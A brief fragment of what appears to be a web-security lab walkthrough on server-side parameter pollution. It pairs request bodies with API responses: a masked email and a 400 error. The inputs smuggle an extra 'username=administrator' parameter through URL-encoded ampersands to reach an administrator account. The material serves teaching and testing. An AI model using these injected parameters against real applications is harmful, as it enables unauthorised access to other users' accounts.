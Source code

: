 ![alt text](image-18.png)

output: {"result":"*****@normal-user.net","type":"email"}


input: csrf=cNCbZ6H4eIN9wKQkjIssoAwN13MVCfPs&username=as%26username=administrator

![alt text](image-20.png)

output: {"type":"ClientError","code":400,"error":"Invalid username."}

input: csrf=cNCbZ6H4eIN9wKQkjIssoAwN13MVCfPs&username=administrator%26xyx=foo
